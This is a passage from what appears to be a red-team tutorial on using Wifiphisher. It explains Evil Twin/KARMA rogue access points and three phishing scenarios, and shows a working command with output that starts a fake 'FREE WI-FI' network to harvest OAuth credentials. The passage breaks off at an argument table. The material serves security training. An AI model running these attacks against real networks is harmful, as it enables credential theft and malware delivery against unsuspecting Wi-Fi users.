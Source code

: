 
<h1>Using WifiPhisher</h1>
<hr/>
<p><a href="https://github.com/wifiphisher/wifiphisher">Wifiphisher</a> is a rogue access point framework designed for red team operations and Wi-Fi security assessments. It allows penetration testers to achieve a man-in-the-middle position against wireless clients by executing targeted Wi-Fi association attacks. Additionally, Wifiphisher facilitates customized web phishing campaigns to capture sensitive credentials, such as third-party login information or WPA/WPA2 Pre-Shared Keys, and can also be used to deliver malware to victim devices. By default, <code>wifiphisher</code> performs both Evil Twin and KARMA attacks.</p>
<p>Wifiphisher offers three primary phishing scenarios to target wireless clients effectively:</p>
<ol>
<li>
<code>OAuth Phishing</code>: Simulates a third-party login page to steal credentials, such as email or social media logins.</li>
<li>
<code>Firmware Upgrade Phishing</code>: Mimics a firmware update page for routers or devices, tricking users into entering credentials.</li>
<li>
<code>Plugin Update Phishing</code>: Displays a fake plugin update notification, prompting users to download malware and compromise the network.</li>
</ol>
<p>These scenarios allow penetration testers to adapt their attacks based on the target's behavior and environment. In this section we will explore all the 3 phishing scenarios in detail.</p>
<h3>1. OAuth Phishing</h3>
<p>This attack involves creating an <code>open</code> Wi-Fi network that mimics popular public Wi-Fi networks. It works by broadcasting beacon frames of known open Wi-Fi networks using entries from this <a href="https://github.com/wifiphisher/wifiphisher/blob/bc4a077e090d59b065cf2c65b0ec1890b9eb4698/wifiphisher/data/wifiphisher-known-open-wlans">list</a>.</p>
<p>When deployed, the attack targets devices with automatic association enabled, tricking them into connecting to the rogue network. This technique exploits users trust in familiar Wi-Fi network names, making it particularly effective in environments like <code>cafes</code>, <code>airports</code>, or <code>shopping centers</code>. Once connected, phishing scenario of the <code>OAuth Login</code> would be launched to harvest credentials.</p>
<p>To initiate the attack, execute the following command:</p>
<pre><code class="language-shell-session">[!bash!]$ wifiphisher --essid "FREE WI-FI" -p oauth-login -kB -kN

Authorization required, but no authorization protocol specified
Authorization required, but no authorization protocol specified
[*] Starting Wifiphisher 1.4GIT ( https://wifiphisher.org ) at 2025-01-18 21:53
[+] Timezone detected. Setting channel range to 1-13
[+] Selecting wlan1 interface for the deauthentication attack
[+] Selecting wlan0 interface for creating the rogue Access Point
[+] Changing wlan0 MAC addr (BSSID) to 00:00:00:aa:45:fa
[+] Changing wlan0 MAC addr (BSSID) to 00:00:00:67:87:44
[*] Cleared leases, started DHCP, set up iptables
[+] Selecting OAuth Login Page template
[*] Starting the fake access point...
[*] Starting HTTP/HTTPS server at ports 8080, 443
[+] Show your support!
[+] Follow us: https://twitter.com/wifiphisher
[+] Like us: https://www.facebook.com/Wifiphisher
[+] Captured credentials:
</code></pre>
<p>Explanation of the command:</p>
<table>
<thead>
<tr>
<th>Argument</th>
<th>Description</th>
</tr>
</thead>
<tbody>